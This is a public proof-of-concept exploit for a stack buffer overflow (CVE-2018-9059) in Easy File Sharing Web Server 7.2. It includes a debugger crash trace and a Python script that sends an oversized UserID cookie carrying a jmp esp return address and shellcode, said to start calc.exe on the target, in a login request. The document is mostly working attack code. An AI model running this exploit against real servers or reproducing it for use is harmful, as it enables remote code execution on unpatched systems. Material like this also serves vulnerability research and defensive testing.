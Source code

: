 EXP
---

    # Exploit Title: Easy File Sharing Web Server 7.2 stack buffer overflow
    # Date: 03/24/2018
    # Exploit Author: rebeyond - http://www.rebeyond.net
    # Vendor Homepage: http://www.sharing-file.com/
    # Software Link: http://www.sharing-file.com/efssetup.exe
    # Version: 7.2
    # CVE: CVE-2018-9059
    # Tested on: Windows XP Professional SP3
    #
    # Description:
    # Attackers just need to construct a malicious login request packet,and send the packet to the server.The server can be pwned
    #
    #
    # The stack trace is as follows:
    # (40d8.2980): Access violation - code c0000005 (first chance)
    # r
    # eax=41414141 ebx=00000001 ecx=ffffffff edx=08fb62a0 esi=08fb6280 edi=08fb62a0
    # eip=61c277f6 esp=08fb61fc ebp=08fb6214 iopl=0         nv up ei pl nz na pe nc
    # cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
    # *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\EFS Software\Easy File Sharing Web Server\sqlite3.dll -
    # sqlite3!sqlite3_errcode+0x8e:
    # 61c277f6 81784c97a629a0  cmp     dword ptr [eax+4Ch],0A029A697h ds:002b:4141418d=????????
    #
    # kb
    # ChildEBP RetAddr  Args to Child
    # WARNING: Stack unwind information not available. Following frames may be wrong.
    # 083b6214 61c6286c 00001183 0000115d 085c4d44 sqlite3!sqlite3_errcode+0x8e
    # *** WARNING: Unable to verify checksum for fsws.exe
    # *** ERROR: Module load completed but symbols could not be loaded for fsws.exe
    # 083b6254 004968f4 00000001 00000000 083b6280 sqlite3!sqlite3_declare_vtab+0x3282
    # 083b6274 004975a3 083b6298 00000000 083b75fc fsws+0x968f4
    # 00000000 00000000 00000000 00000000 00000000 fsws+0x975a3


    import requests
    host='192.168.50.30'
    port='80'

    buf='A'*4071
    buf +='\x12\x45\xfa\x7f' #jmp esp
    buf +='A'*12
    buf +='\xeb\x36'  #jmp 0x36
    buf +='A'*42
    buf +='\x60\x30\xc7\x61'*2 #must be valid address
    buf +='A'*4
    #shellcode to execute calc.exe on remote server
    buf += "\xdb\xdc\xd9\x74\x24\xf4\x58\xbb\x24\xa7\x26\xec\x33"
    buf += "\xc9\xb1\x31\x31\x58\x18\x03\x58\x18\x83\xe8\xd8\x45"
    buf += "\xd3\x10\xc8\x08\x1c\xe9\x08\x6d\x94\x0c\x39\xad\xc2"
    buf += "\x45\x69\x1d\x80\x08\x85\xd6\xc4\xb8\x1e\x9a\xc0\xcf"
    buf += "\x97\x11\x37\xe1\x28\x09\x0b\x60\xaa\x50\x58\x42\x93"
    buf += "\x9a\xad\x83\xd4\xc7\x5c\xd1\x8d\x8c\xf3\xc6\xba\xd9"
    buf += "\xcf\x6d\xf0\xcc\x57\x91\x40\xee\x76\x04\xdb\xa9\x58"
    buf += "\xa6\x08\xc2\xd0\xb0\x4d\xef\xab\x4b\xa5\x9b\x2d\x9a"
    buf += "\xf4\x64\x81\xe3\x39\x97\xdb\x24\xfd\x48\xae\x5c\xfe"
    buf += "\xf5\xa9\x9a\x7d\x22\x3f\x39\x25\xa1\xe7\xe5\xd4\x66"
    buf += "\x71\x6d\xda\xc3\xf5\x29\xfe\xd2\xda\x41\xfa\x5f\xdd"
    buf += "\x85\x8b\x24\xfa\x01\xd0\xff\x63\x13\xbc\xae\x9c\x43"
    buf += "\x1f\x0e\x39\x0f\x8d\x5b\x30\x52\xdb\x9a\xc6\xe8\xa9"
    buf += "\x9d\xd8\xf2\x9d\xf5\xe9\x79\x72\x81\xf5\xab\x37\x7d"
    buf += "\xbc\xf6\x11\x16\x19\x63\x20\x7b\x9a\x59\x66\x82\x19"
    buf += "\x68\x16\x71\x01\x19\x13\x3d\x85\xf1\x69\x2e\x60\xf6"
    buf += "\xde\x4f\xa1\x95\x81\xc3\x29\x74\x24\x64\xcb\x88"

    cookies = dict(SESSIONID='6771', UserID=buf,PassWD='')
    data=dict(frmLogin='',frmUserName='',frmUserPass='',login='')
    requests.post('http://'+host+':'+port+'/forum.ghp',cookies=cookies,data=data)